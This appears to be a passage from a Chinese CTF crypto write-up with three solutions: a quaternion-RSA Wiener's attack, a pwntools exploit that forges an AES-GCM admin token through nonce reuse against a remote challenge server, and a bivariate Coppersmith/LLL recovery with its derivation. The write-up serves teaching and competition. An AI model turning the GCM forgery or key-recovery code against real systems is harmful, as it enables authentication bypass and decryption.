c_tuple = (36509962693210047517809190780500733945629638467721636016118307831299153205787169088399018032858962653944360359037757238416729623515314461908869670066385367461579954207170900898502608201371741903312247217007567631584237670049543882850246347784852813361080564895289678219739976819925055830837232548960336550804, 14959247128290207711158598578966149380261887381574636597156641284189267790471920774170808806288580563577492441070024491886953389517733477847472737986545246252874395600374486543947605977380365673302757291495953658030048738906460472042379676160137626447499571382731894905380992263233204548600668812780247601325, 36653805985529315558503796353782648503316310086826701482263862429608379730584363732938416744191295088641419179725673205148217999183797829423539295825286947419128575063946728227807922575922697370871241826105471260524875137135999213015948866472957081351066130709476717779611974377854714476824268335455979590736, 44619982799889884704010277482810139576960205880619960462167175653326841572868809642692412859814472796539211092403704130039198480671655784971458045667408446084843398171460450068014922244839889367385992492875980531522963147513445040259751323986442839404788429909271285196520486381047903450020895598546088952188)

# QN 类定义（用于解密）
class QN:
    def __init__(self, a, b, c, d, n):
        self.a = a % n
        self.b = b % n
        self.c = c % n
        self.d = d % n
        self.n = n
    def __mul__(self, other):
        if isinstance(other, QN) and self.n == other.n:
            n = self.n
            a1, b1, c1, d1 = self.a, self.b, self.c, self.d
            a2, b2, c2, d2 = other.a, other.b, other.c, other.d
            a = (a1*a2 - b1*b2 - c1*c2 - d1*d2) % n
            b = (a1*b2 + b1*a2 + c1*d2 - d1*c2) % n
            c = (a1*c2 - b1*d2 + c1*a2 + d1*b2) % n
            d = (a1*d2 + b1*c2 - c1*b2 + d1*a2) % n
            return QN(a, b, c, d, n)
        return NotImplemented
    def __pow__(self, exp):
        if exp <= 0:
            return QN(1, 0, 0, 0, self.n)
        result = QN(1, 0, 0, 0, self.n)
        base = self
        while exp > 0:
            if exp & 1:
                result = result * base
            base = base * base
            exp >>= 1
        return result
    def __repr__(self):
        return f"({self.a}, {self.b}, {self.c}, {self.d})"

# 连分数算法（Wiener's Attack 基础）
def continued_fractions(n, d):
    while d:
        q = n // d
        yield q
        n, d = d, n % d

def convergents(n, d):
    # 生成 convergents (num, den) 即 (k, d)
    # p_{-2}=0, p_{-1}=1, q_{-2}=1, q_{-1}=0
    p0, p1 = 0, 1
    q0, q1 = 1, 0
    for q in continued_fractions(n, d):
        p0, p1 = p1, q * p1 + p0
        q0, q1 = q1, q * q1 + q0
        yield p1, q1

# 尝试攻击
def solve():
    print("Trying Wiener's Attack using convergents of e/n...")
    # k/d 是 e/N 的 convergent
    for k, d in convergents(e, n):
        if k == 0: continue
        
        # 检查 d 的长度是否符合题目描述 (500 bits)
        if d.bit_length() == 500:
            print(f"Candidate d found with length {d.bit_length()}")

            c_qn = QN(c_tuple[0], c_tuple[1], c_tuple[2], c_tuple[3], n)
            try:
                m_qn = pow(c_qn, d)
                flag_long = m_qn.a
                flag_bytes = long_to_bytes(flag_long)
                if b'flag{' in flag_bytes or b'ctf{' in flag_bytes.lower() or b'Complex' in flag_bytes:
                    print(f"Decrypted Flag: {flag_bytes}")
                    return
            except Exception as ex:
                pass

if __name__ == "__main__":
    solve()
```

**flag{Qu4t3rNion_l5_S0_6rea7_&_Ch4rm1n9}**


+ POC

> Easy AES Challenge

[ ^附件]:main.zip

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import os


class PaddingOracleClass:
    def __init__(self):
        self.key = os.urandom(16)
        self.auth = os.urandom(16)
        self.nonces = set()

        self.update(nonce=os.urandom(12))
    
    def update(self, nonce: bytes):
        assert nonce not in self.nonces, "Nonce Reuse Detected"

        self.nonces.add(nonce)
        self.nonce = nonce
        self.cnt = 2
    
    def register(self, username: bytes) -> tuple[bytes, bytes]:
        assert self.cnt, "Out of Services"
        self.cnt -= 1

        aes = AES.new(self.key, AES.MODE_GCM, nonce=self.nonce)
        aes.update(self.auth)
        tok, en = aes.encrypt_and_digest(pad(username, 16))
        return tok+en

    def login(self, token: bytes) -> bytes:
        assert self.cnt, "Out of Services"
        self.cnt -= 1

        aes = AES.new(self.key, AES.MODE_GCM, nonce=self.nonce)
        aes.update(self.auth)
        tok, en = token[:-16], token[-16:]
        username = unpad(aes.decrypt_and_verify(tok, en), 16)
        return username


MENU = '''
========== MENU ==========
cnt = {}
nonce = {}

= [U]pdate
= [R]egister
= [L]ogin
= [Q]uit
==========================
'''

poc = PaddingOracleClass()
while True:
    print(MENU.format(poc.cnt, poc.nonce.hex()))
    try:
        inp = input('>').upper()
        if inp == "Q":
            raise Exception
        
        elif inp == "U":
            poc.update(
                nonce=bytes.fromhex(input("nonce(hex)>"))
            )

        elif inp == "R":
            username = os.urandom(8)
            token = poc.register(username=username)
            print(f"Register!\n{token.hex()}")
            print(username.hex())

        elif inp == "L":
            token = bytes.fromhex(input("token(hex)>"))
            username = poc.login(token=token)
            print(f"Login!")
            if username == b"admin":
                with open("flag", "r") as f:
                    print(f.read())
                raise Exception
            else:
                print(f"Hello, what can I help you? {username.hex()}")
    except:
        print("Bye")
        break
```


```python
from pwn import *
from Crypto.Util.Padding import pad
from Crypto.Util.number import bytes_to_long, long_to_bytes
import os

# ==========================================
# Correct AES-GCM GF(2^128) Arithmetic
# Mapping: LSB of integer is x^0
# ==========================================

class GCM_Attack:
    def __init__(self):
        # Reduction polynomial for LSB=x^0 representation:
        # P(x) = x^128 + x^7 + x^2 + x + 1
        # Low terms are 1 + x + x^2 + x^7 -> 1 | 2 | 4 | 128 = 0x87
        self.POLY = 0x87
    
    def bits_reverse(self, n):
        """Standard 128-bit reversal"""
        s = f'{n:0128b}'
        return int(s[::-1], 2)

    def bytes_to_element(self, b):
        """
        Bytes to GF(2^128) element.
        GCM spec: Byte 0 bit 0 is coefficient of x^0.
        bytes_to_long(b) puts Byte 0 at MSB.
        bits_reverse() puts Byte 0 at LSB (correct for LSB=x^0 logic).
        """
        n = bytes_to_long(b)
        return self.bits_reverse(n)

    def element_to_bytes(self, n):
        """GF(2^128) element back to bytes"""
        n = self.bits_reverse(n)
        return long_to_bytes(n, 16)

    def gmul(self, a, b):
        """
        Multiplication in GF(2^128) where LSB is x^0.
        Standard "Peasant's Algorithm" with LEFT SHIFT.
        """
        p = 0
        # Iterate through bits of b (from x^0 to x^127)
        for i in range(128):
            if (b >> i) & 1:
                p ^= a
            
            # Multiply a by x (Left Shift)
            high_bit = (a >> 127) & 1
            a = (a << 1) & ((1 << 128) - 1)
            if high_bit:
                a ^= self.POLY
        return p

    def gpow(self, a, n):
        """Exponentiation: a^n"""
        res = 1 # Identity element is 1 (x^0)
        while n > 0:
            if n & 1:
                res = self.gmul(res, a)
            a = self.gmul(a, a)
            n >>= 1
        return res

    def ginv(self, a):
        """Modular Inverse: a^(-1) = a^(2^128 - 2)"""
        return self.gpow(a, (1 << 128) - 2)

# ==========================================
# Exploit Script
# ==========================================

def solve():
    context.log_level = 'info'
    
    try:
        r = remote('pwn-ff4f589b0c.challenge.xctf.org.cn', 9999, ssl=True)
    except:
        log.error("Could not connect.")
        return

    gcm = GCM_Attack()

    def update(nonce):
        r.sendlineafter(b'>', b'U')
        r.sendlineafter(b'nonce(hex)>', nonce.hex().encode())

    def register():
        r.sendlineafter(b'>', b'R')
        r.recvuntil(b'Register!\n')
        token_hex = r.recvline().strip().decode()
        username_hex = r.recvline().strip().decode()
        return bytes.fromhex(token_hex), bytes.fromhex(username_hex)

    def login(token):
        r.sendlineafter(b'>', b'L')
        r.sendlineafter(b'token(hex)>', token.hex().encode())

    log.info("Starting Attack with LSB-LeftShift GCM Arithmetic...")

    try:
        # --- Phase 1: Recover H^2 ---
        nonce1 = os.urandom(12)
        update(nonce1)

        # Get differential pair
        tok1, user1 = register()
        tok2, user2 = register()

        c1, t1 = tok1[:-16], tok1[-16:]
        c2, t2 = tok2[:-16], tok2[-16:]

        ec1 = gcm.bytes_to_element(c1)
        et1 = gcm.bytes_to_element(t1)
        ec2 = gcm.bytes_to_element(c2)
        et2 = gcm.bytes_to_element(t2)

        # Difference
        diff_t = et1 ^ et2
        diff_c = ec1 ^ ec2
        
        if diff_c == 0:
            log.warning("Bad luck (collision). Rerunning...")
            r.close()
            solve()
            return

        # H^2 = (T1 + T2) / (C1 + C2)
        h2 = gcm.gmul(diff_t, gcm.ginv(diff_c))
        log.success(f"Recovered H^2: {hex(h2)}")

        # --- Phase 2: Forge Admin Token ---
        nonce2 = os.urandom(12)
        update(nonce2) # Refresh cnt=2, change Mask

        # Get base ciphertext
        tok3, user3 = register()
        c3, t3 = tok3[:-16], tok3[-16:]
        p3 = pad(user3, 16) # Known plaintext

        ec3 = gcm.bytes_to_element(c3)
        et3 = gcm.bytes_to_element(t3)
        ep3 = gcm.bytes_to_element(p3)

        # 1. Forge Ciphertext (Bit-flip attack / Keystream reuse)
        # Keystream = C + P
        keystream = ec3 ^ ep3
        
        target_user = b"admin"
        p_target = pad(target_user, 16)
        ep_target = gcm.bytes_to_element(p_target)
        
        # C_forge = P_target + Keystream
        ec_target = ep_target ^ keystream
        c_target = gcm.element_to_bytes(ec_target)

        # 2. Forge Tag
        # T_forge = T_base + (C_forge + C_base) * H^2
        diff_c_new = ec_target ^ ec3
        delta_tag = gcm.gmul(diff_c_new, h2)
        
        et_target = et3 ^ delta_tag
        t_target = gcm.element_to_bytes(et_target)

        # --- Phase 3: Login ---
        final_token = c_target + t_target
        log.info(f"Sending Forged Token: {final_token.hex()}")
        
        login(final_token)
        
        # Read Flag
        # Server behavior: Prints "Login!", checks username=="admin", prints flag, then raises Exception ("Bye")
        r.recvuntil(b"Login!")
        log.success("Login Successful! Retrieving flag...")
        
        flag = r.recvall(timeout=2).decode().strip()
        print("\n" + "="*50)
        print(f"FLAG: {flag}")
        print("="*50 + "\n")

    except Exception as e:
        log.error(f"Attack Failed: {e}")
        # Try to print whatever is left in buffer
        try:
            print(r.recv(timeout=1).decode())
        except:
            pass
    finally:
        r.close()

if __name__ == '__main__':
    solve()
```

**flag{VJBSDIVWcdgogQKp6BSo9e8ah5HDH7qJ}**


+ Bivariate copper

> So the question is, what is copper?

[ ^附件]:chall.zip

```python
from Crypto.Util.number import *
from secret import *

with open("message", "r") as f:
    message = f.read().strip().encode()

m = bytes_to_long(flag)
message = bytes_to_long(message)

p = getPrime(1024)
q = getPrime(25)
N = p * q
e = 65537

c = pow(message, e, N)
r1, r2 = getPrime(512), getPrime(512)
k = getPrime(64)

t1 = (k * inverse(m + r1, p)) % p
t2 = (k * inverse(m + r2, p)) % p

leak1 = t1 >> 244
leak2 = t2 >> 244

print(f'{e = }')
print(f'{N = }')
print(f'{c = }')

print(f'{k = }')
print(f'{r1 = }')
print(f'{r2 = }')
print(f'{leak1 = }')
print(f'{leak2 = }')

'''
e = 65537
N = 3333577291839009732612693330613476891341287017491683764014849337158389717338712200133085615150269196268856288361865352673921704626130772582853528604556994221890454520933132803888321775335519781063447756692130742361931522856942232406992357982482263472763363458621836220024977864980600979194500121897419553619426163227
c = 1277272201928931051067525742142583320131498687502905469530557519241347169899260720694873154669476372724906606385788056536109971768256973988460766527896895880291037980646963981472637862512247195798266373251524526460097881602691641026093728861572872156172787168597410496150253340538386296663073088345799201197096884740
k = 9352039867057736323
r1 = 10421792656200324147964684790160875926436411483496860422433732508593789212449544620816674407170998779863336939494663076247759140488927744939619406024905901
r2 = 8806088830734144089522276896226392806947836111998696180055727048752624989402057411311728398322297424598954586424896296000606209022432442660527640463521679
leak1 = 4266222222502644630611545246271868348722888987303187402827005454059765428769160822475080050046035916876078546634293907218937483241284454918367519709206766322037148585465519188582916280829212776096606923824120883699251868362915920299645
leak2 = 1176921186497191878459783787148403806360469809421921990427675048480656171919274113895695842508460760829511824635106692634456334400022597605585661597793889066395539405395254174368285751236344600489419240628821864912762242188289636510706
'''
```

$$
n=pq \\
c=message^e\ (mod\ n) \\
t_1\equiv k*(m+r_1)^{-1}\ (mod\ p) \\
t_2\equiv k*(m+r_2)^{-1}\ (mod\ p) \\
leak1=t1>>244 \\
leak2=t2>>244 \\
$$


```python
import sys
from decimal import Decimal, getcontext

# Set high precision for LLL arithmetic with large numbers
getcontext().prec = 2000

# --- Problem Data ---
e = 65537
N = 3333577291839009732612693330613476891341287017491683764014849337158389717338712200133085615150269196268856288361865352673921704626130772582853528604556994221890454520933132803888321775335519781063447756692130742361931522856942232406992357982482263472763363458621836220024977864980600979194500121897419553619426163227
c = 1277272201928931051067525742142583320131498687502905469530557519241347169899260720694873154669476372724906606385788056536109971768256973988460766527896895880291037980646963981472637862512247195798266373251524526460097881602691641026093728861572872156172787168597410496150253340538386296663073088345799201197096884740
k = 9352039867057736323
r1 = 10421792656200324147964684790160875926436411483496860422433732508593789212449544620816674407170998779863336939494663076247759140488927744939619406024905901
r2 = 8806088830734144089522276896226392806947836111998696180055727048752624989402057411311728398322297424598954586424896296000606209022432442660527640463521679
leak1 = 4266222222502644630611545246271868348722888987303187402827005454059765428769160822475080050046035916876078546634293907218937483241284454918367519709206766322037148585465519188582916280829212776096606923824120883699251868362915920299645
leak2 = 1176921186497191878459783787148403806360469809421921990427675048480656171919274113895695842508460760829511824635106692634456334400022597605585661597793889066395539405395254174368285751236344600489419240628821864912762242188289636510706

# --- Helper Functions ---
def inverse(a, n):
    t, newt = 0, 1
    r, newr = n, a
    while newr != 0:
        quotient = r // newr
        t, newt = newt, t - quotient * newt
        r, newr = newr, r - quotient * newr
    if r > 1: raise ValueError("a is not invertible")
    if t < 0: t = t + n
    return t

def gram_schmidt(basis):
    n = len(basis)
    mu = [[Decimal(0)] * n for _ in range(n)]
    B = [Decimal(0)] * n
    b_star = [None] * n
    for i in range(n):
        vec_i = [Decimal(x) for x in basis[i]]
        for j in range(i):
            dot = sum(vec_i[k] * b_star[j][k] for k in range(len(vec_i)))
            mu[i][j] = dot / B[j]
            vec_i = [vec_i[k] - mu[i][j] * b_star[j][k] for k in range(len(vec_i))]
        b_star[i] = vec_i
        B[i] = sum(x*x for x in vec_i)
    return mu, B

def lll_reduction(basis, delta=Decimal("0.99")):
    n = len(basis)
    k = 1
    while k < n:
        for j in range(k - 1, -1, -1):
            mu, B = gram_schmidt(basis)
            if abs(mu[k][j]) > Decimal("0.5"):
                q = int((mu[k][j]).to_integral_value(rounding='ROUND_HALF_EVEN'))
                basis[k] = [basis[k][x] - q * basis[j][x] for x in range(len(basis[k]))]
        mu, B = gram_schmidt(basis)
        if B[k] < (delta - mu[k][k-1]**2) * B[k-1]:
            basis[k], basis[k-1] = basis[k-1], basis[k]
            k = max(k - 1, 1)
        else:
            k += 1
    return basis

# --- Solution ---
# 1. Factor N (q is small, ~25 bits)
q = 0
for i in range(3, 2**26, 2):
    if N % i == 0:
        q = i
        break
p = N // q

# 2. Setup Bivariate Polynomial F(x1, x2) = 0 mod p
H1 = leak1 << 244
H2 = leak2 << 244
dr = r2 - r1
# Coefficients derived from: k(t2 - t1) + t1*t2*dr = 0 mod p
C_x1x2 = dr % p
C_x1 = (dr * H2 - k) % p
C_x2 = (dr * H1 + k) % p
C_1 = (k * (H2 - H1) + dr * H1 * H2) % p

# Normalize to make x1x2 coefficient 1
inv_dr = inverse(C_x1x2, p)
A = (C_x1 * inv_dr) % p  # Coeff of x1
B = (C_x2 * inv_dr) % p  # Coeff of x2
C = (C_1 * inv_dr) % p   # Constant

X1 = 1 << 244
X2 = 1 << 244

# Lattice Basis for F(x1, x2) = x1x2 + A*x1 + B*x2 + C
# Columns correspond to monomials: [1, x1, x2, x1x2]
# Weights: [1, X1, X2, X1*X2]
basis = [
    [C, A * X1, B * X2, X1 * X2], # F
    [p, 0, 0, 0],                 # p
    [0, p * X1, 0, 0],            # p*x1
    [0, 0, p * X2, 0]             # p*x2
]

reduced_basis = lll_reduction(basis)

# Extract polynomials from short vectors
def get_coeffs(vec):
    return vec[0], vec[1] // X1, vec[2] // X2, vec[3] // (X1 * X2)

# Use resultant of first two vectors to solve
v1 = reduced_basis[0]
v2 = reduced_basis[1]
c0, c1, c2, c3 = get_coeffs(v1)
d0, d1, d2, d3 = get_coeffs(v2)

# Resultant wrt x1: (c3*x2 + c1)(d2*x2 + d0) - (d3*x2 + d1)(c2*x2 + c0) = 0
# Quadratic in x2: QA*x2^2 + QB*x2 + QC = 0
QA = c3 * d2 - d3 * c2
QB = c3 * d0 + c1 * d2 - d3 * c0 - d1 * c2
QC = c1 * d0 - d1 * c0

# Solve quadratic
delta_quad = QB*QB - 4*QA*QC
if delta_quad >= 0:
    isqrt_val = int(Decimal(delta_quad).sqrt())
    if isqrt_val * isqrt_val == delta_quad:
        roots = []
        if QA != 0:
            roots.append((-QB + isqrt_val) // (2 * QA))
            roots.append((-QB - isqrt_val) // (2 * QA))
        elif QB != 0:
            roots.append(-QC // QB)
        
        for rx2 in roots:
            # Check x2 range
            if 0 <= rx2 < X2:
                # Solve for x1: x1(c3*rx2 + c1) = -(c2*rx2 + c0)
                denom = c3 * rx2 + c1
                num = - (c2 * rx2 + c0)
                if denom != 0 and num % denom == 0:
                    rx1 = num // denom
                    if 0 <= rx1 < X1:
                        # Recover m
                        t1 = (H1 + rx1) % p
                        m = (k * inverse(t1, p) - r1) % p
                        try:
                            flag = m.to_bytes((m.bit_length()+7)//8, 'big')
                            print(flag.decode())
                        except:
                            pass

```

**flag{H4hAHhhHh4_c0pP3r_N07_v1OI3n7_3n0uGh}**


$$
\begin{aligned}
q &= ????????,\quad p = \frac{N}{q},\quad H_1 = \text{leak}_1 \cdot 2^{244},\quad H_2 = \text{leak}_2 \cdot 2^{244},\\
x_1 &= t_1 \bmod 2^{244},\; 0 \le x_1 < 2^{244},\quad x_2 = t_2 \bmod 2^{244},\; 0 \le x_2 < 2^{244},\\
T_1 &= H_1 + x_1,\quad T_2 = H_2 + x_2,\\
(r_1 - r_2) &\equiv k(t_1^{-1} - t_2^{-1}) \pmod{p} \equiv k \cdot \frac{t_2 - t_1}{t_1 t_2} \pmod{p},\\
k(t_2 - t_1) &- (r_1 - r_2)t_1 t_2 \equiv 0 \pmod{p},\\
d_r &= r_2 - r_1,\quad k(T_2 - T_1) - d_r T_1 T_2 \equiv 0 \pmod{p} \quad (1),\\
k(H_2 &+ x_2 - H_1 - x_1) - d_r(H_1 + x_1)(H_2 + x_2) \equiv 0 \pmod{p},\\
k(H_2 - H_1) &+ kx_2 - kx_1 - d_r H_1 H_2 - d_r H_1 x_2 - d_r H_2 x_1 - d_r x_1 x_2 \equiv 0 \pmod{p},\\
(-d_r H_2 &- k)x_1 + (-d_r H_1 + k)x_2 - d_r x_1 x_2 + [k(H_2 - H_1) - d_r H_1 H_2] \equiv 0 \pmod{p},\\
C_{x_1x_2} &= -d_r,\; C_{x_1} = -d_r H_2 - k,\; C_{x_2} = -d_r H_1 + k,\; C_1 = k(H_2 - H_1) - d_r H_1 H_2,\\
C_{x_1x_2} &x_1 x_2 + C_{x_1} x_1 + C_{x_2} x_2 + C_1 \equiv 0 \pmod{p} \quad (2),\\
d &= C_{x_1x_2}^{-1} \bmod p,\quad x_1 x_2 + A x_1 + B x_2 + C \equiv 0 \pmod{p},\\
A &= C_{x_1} \cdot d \bmod p,\; B = C_{x_2} \cdot d \bmod p,\; C = C_1 \cdot d \bmod p,\\
X_1 &= X_2 = 2^{244},\quad f(x_1, x_2) = x_1 x_2 + A x_1 + B x_2 + C \equiv 0 \pmod{p},\\
M &= \begin{bmatrix}
C & A X_1 & B X_2 & X_1 X_2 \\
p & 0 & 0 & 0 \\
0 & p X_1 & 0 & 0 \\
0 & 0 & p X_2 & 0
\end{bmatrix},\\
g_1(x_1,x_2) &= a_0 + a_1 x_1 + a_2 x_2 + a_3 x_1 x_2,\quad g_2(x_1,x_2) = b_0 + b_1 x_1 + b_2 x_2 + b_3 x_1 x_2,\\
(a_3 x_2 + a_1) &x_1 + (a_2 x_2 + a_0) = 0,\quad (b_3 x_2 + b_1) x_1 + (b_2 x_2 + b_0) = 0,\\
(a_3 x_2 + a_1)&(b_2 x_2 + b_0) - (b_3 x_2 + b_1)(a_2 x_2 + a_0) = 0,\\
Q_A x_2^2 &+ Q_B x_2 + Q_C = 0,\quad Q_A = a_3 b_2 - b_3 a_2,\\
Q_B &= a_3 b_0 + a_1 b_2 - b_3 a_0 - b_1 a_2,\quad Q_C = a_1 b_0 - b_1 a_0,\\
x_1 &= -\frac{a_2 x_2 + a_0}{a_3 x_2 + a_1},\quad 0 \le x_1 < X_1,\; 0 \le x_2 < X_2,\\
t_1 &= H_1 + x_1,\quad t_1^{-1} \equiv t_1^{\varphi(p)-1} \pmod{p},\\
m + r_1 &\equiv k \cdot t_1^{-1} \pmod{p},\quad m \equiv (k \cdot t_1^{-1} - r_1) \bmod p.
\end{aligned}
$$

